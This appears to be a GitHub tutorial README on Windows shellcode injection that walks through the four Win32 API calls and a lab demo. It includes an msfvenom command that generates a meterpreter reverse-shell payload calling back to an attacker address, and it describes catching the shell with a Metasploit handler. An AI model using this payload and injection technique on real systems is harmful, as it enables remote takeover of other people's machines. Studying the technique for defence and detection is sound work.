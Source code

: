## `💉` Shellcode Injection

This technique is as vanilla as it gets; the simplest. It's also *quite* elegant. By attaching to an existing process, we're able to inject our own shellcode into it and have our shellcode run. A bit of an oversimplification since there's actually a lot going on under the covers; but we'll talk about that next. We're going to be using a lot of **Win32 API** calls for our malware development until we get more advanced in our craft. I've created another repo called [low-level](https://github.com/cr-0w/low-level) that also documents my experience with low-level languages including: `Assembly`, `C`, `C++`, `Win32 API`, etc. You could take a gander at it before coming here in case you're brand-brand new.

A shellcode injection consists of the following API calls:

- [`OpenProcess()`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
- [`VirtualAllocEx()`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
- [`WriteProcessMemory()`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
- [`CreateRemoteThread()`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

> **Note**:
> *All of the documentation for these functions, as well as the Win32 API can be found/read from [Microsoft themselves](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list). It's an amazing resource; although it may seem extremely daunting at first. However, I promise that if you take the time to actually read it - as well as read the related documents that use your function, you'll come to appreciate this resource.*

## `💽` Demo

https://user-images.githubusercontent.com/59679082/220434097-27645ac4-c8a8-4679-bee8-f5ec277853a0.mp4

## `⚠️` Malicious Shellcode Example

> **Warning**:
> *The final code, isn't exactly a super-vanilla implementation of this technique. I included my code from the [process enumeration](https://github.com/cr-0w/low-level/tree/main/Win32%20API/5-enumerateprocess) part of my [low-level](https://github.com/cr-0w/low-level) repository. I thought it would be a neat little way of combining some concepts.*

In this example, I opted to go for harmless shellcode, which just pops-a-calc. You could definitely swap out your shellcode for something like a meterpreter shell or something. If I can help it, I'll try to opt for the less-malicious shellcode as a PoC. However, since this is our *first* time doing this, why not be a little extra? 😊

First, let's generate some shellcode with `msfvenom`. We'll try to get a simple meterpreter reverse shell going. 

```bash
cr0w@blackbird: ~
ζ ›› msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.198.128 LPORT=443 exitfunc=thread -b "\x00" -f c
```

![image](https://user-images.githubusercontent.com/59679082/220697432-372ce7ba-21d6-406f-b85a-9fde69b94130.png)

> **Note**:
> *Obviously, this would IMMEDIATELY get flagged by pretty much any AV/EDR; so, if you're planning on running this in a patched environment, good luck.*


With the shellcode now generated, we can include it in our script.

```cpp
unsigned char buf[] = ""; // SHELLCODE HERE
```

![image](https://user-images.githubusercontent.com/59679082/220699108-2a9717cb-eda9-465b-8e87-7ca8534ccafe.png)

Nice, our script is now *locked and loaded*. Let's compile it, and get our `exploit/multi/handler` ready to catch the shell. 

![image](https://user-images.githubusercontent.com/59679082/220700137-31a60641-0aa3-4fd9-bc35-4d115d8c5edd.png)

Finally, we can now use our executable to see if we catch a shell. Let's see how it goes:

https://user-images.githubusercontent.com/59679082/220713806-f2b4d399-f045-4699-805a-c4da7c7c930e.mp4

We can also inspect the notepad process after getting a shell. We can see that it gets a new DLL that it [should otherwise never have](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection#references). `ws2_32.dll` which is responsible for sockets.

![image](https://user-images.githubusercontent.com/59679082/220707821-832d13fc-99ad-422f-80a4-b1a5a5f935e7.png)


## `💖` Extra Resources

Some other resources you can use to read up on this technique are:

- [CreateRemoteThread Shellcode Injection](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection)
- [Process Injection using CreateRemoteThread API](https://tbhaxor.com/createremotethread-process-injection/)
- [Process Injection: Remote Thread Injection or CreateRemoteThread](https://aliongreen.github.io/posts/remote-thread-injection.html)
